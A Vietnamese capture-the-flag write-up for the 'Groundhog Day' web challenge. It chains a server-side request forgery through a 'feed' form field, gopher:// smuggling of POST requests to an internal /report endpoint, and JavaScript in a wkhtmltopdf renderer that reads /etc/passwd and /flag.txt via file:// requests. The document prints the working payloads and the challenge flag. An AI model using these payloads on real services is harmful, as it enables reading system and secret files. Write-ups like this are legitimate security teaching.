





# Groundhog Day

## Tổng quan



Check View Source có comment:

```html
  <!-- ops: console pulls station JSON at boot from http://127.0.0.1:8000/feed.
       override it with feed=<url> when PUNX-1 is down and you need to point at
       a spare station. manual override panel below, re-enable it next outage.
       remove before public launch.

  <form class="override" action="/" method="post">
    <label for="feed">Station feed URL</label>
    <input id="feed" name="feed" type="text" size="60" value="http://127.0.0.1:8000/feed">
    <button type="submit">Load station</button>
  </form>
  -->
  <!-- feed-debug: source=http://127.0.0.1:8000/feed bytes=349 -->
```

Comment này cho biết:

- Console có form `POST /`.
- Tên field là `feed`.
- Server có station feed tại `http://127.0.0.1:8000/feed`.

## Xác nhận server thật sự fetch URL do người dùng cung cấp

Gửi lại URL mặc định qua form:

```http
POST / HTTP/1.1
Host: odyssey.web.2026.sunshinectf.games
Content-Type: application/x-www-form-urlencoded

feed=http://127.0.0.1:8000/feed
```

Response vẫn là trang forecast, nhưng các giá trị đã thay đổi.

Comment chỉ gợi ý `/feed`, nhưng 1 service HTTP thường có thể còn các route khác. Đổi `feed` thành root:

```http
POST / HTTP/1.1
Host: odyssey.web.2026.sunshinectf.games
Content-Type: application/x-www-form-urlencoded

feed=http://127.0.0.1:8000/
```

Public console không parse được response thành JSON, nên hiển thị trạng thái Fault và in nguyên response vào `Raw telemetry`. Nội dung nhận được:

```text
PUNXSUTAWNEY ORBITAL WEATHER AUTHORITY -- BUREAU ARCHIVE (internal)
====================================================================
Staff endpoints. Do not expose to the public console.

  GET  /feed
       Current randomised observation for station PUNX-1, as JSON.

  GET  /health
       Liveness probe.

  POST /report
       Render an archival PDF from a report body.
       Content-Type: application/x-www-form-urlencoded
       Fields:
         content  report contents
         title    optional document title

       Example:
         POST /report HTTP/1.1
         Host: 127.0.0.1:8000
         Content-Type: application/x-www-form-urlencoded
         Content-Length: 40

         content=%3Ch1%3EFeb+2+Summary%3C%2Fh1%3E

       Returns JSON. The microfilm scanner cannot take binary over the
       wire, so the document comes back base64 in the `data` field.

NOTE(ops): This application is NOT to be published. It has been restricted to
localhost for maintenance and testing purposes; mainly updating from wkhtmltopdf 0.12.5

```

Xác định được `/report`. Endpoint này nhận nội dung.

## Xác nhận Gopher SSRF bằng request GET

Thử dùng Gopher gửi trực tiếp 1 request TCP tới localhost:

```http
GET /health HTTP/1.1
Host: 127.0.0.1:8000

```

URL-encode request đó, xong thêm cụm `gopher://127.0.0.1:8000/_` phía trước rồi encode thêm 1 lần nữa (chọn CRLF):


```text
feed=gopher%3A%2F%2F127.0.0.1%3A8000%2F_GET%2520%2Fhealth%2520HTTP%2F1.1%250d%250aHost%3A%2520127.0.0.1%3A8000%250d%250a%250d%250a
```

Response được console in lại:


Như vậy Gopher đã tạo được request với method tùy ý, không còn bị giới hạn ở GET do console sử dụng.

## Gửi POST `/report` qua Gopher

Request raw:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close

content=hello
```

Làm tương tự như trên, nhận được response:



Prefix `JVBERi0xL...` là base64 của `%PDF-1.4`, nên `data` đúng là nội dung PDF.

## Kiểm tra nội dung report được render

Thay `hello` bằng HTML:

```html
<h1>READTEST</h1>
```

Sau khi giải mã `data` và chạy, PDF trả về:



Như vậy field `content` được đưa vào renderer, không phải chỉ được lưu dưới dạng text.

Metadata của PDF cũng cho biết renderer:


Version này cho phép JavaScript trong HTML thực hiện request tới `file://`.

## Thử đọc file local bằng iframe

Thử cách trực tiếp trước:

```html
<h1>IFRAME</h1>
<iframe src="file:///etc/passwd" width="1000" height="2000"></iframe>
```

PDF vẫn được tạo nhưng `pdftotext` chỉ trả về:

```text
IFRAME
```

Iframe không đưa nội dung text vào phần text của PDF. Vì vậy chuyển sang JavaScript để lấy response text và ghi trực tiếp vào document.

Payload JavaScript:

```html
<html>
  <body>
    <pre id="o"></pre>
    <script>
      var x = new XMLHttpRequest();
      x.open("GET", "file:///etc/hostname", false);
      x.send();
      document.getElementById("o").textContent = x.responseText;
    </script>
  </body>
</html>
```

PDF sau khi chạy `pdftotext` chứa:



Đổi file test thành `/etc/passwd` để kiểm tra nội dung dài hơn:

```html
<script>
var x = new XMLHttpRequest();
x.open("GET", "file:///etc/passwd", false);
x.send();
document.body.innerText = x.responseText;
</script>
```

Kết quả:



Đến đây đã có bằng chứng cho local file read qua PDF renderer.

Thay path trong XHR thành `/flag.txt`:

```html
<script>
var x = new XMLHttpRequest();
x.open("GET", "file:///flag.txt", false);
x.send();
document.body.innerText = x.responseText;
</script>
```

Sau khi giải mã:


## Flag

```text
sun{s1x_m0r3_w33ks_0f_g0ph3r_ssrf}
```
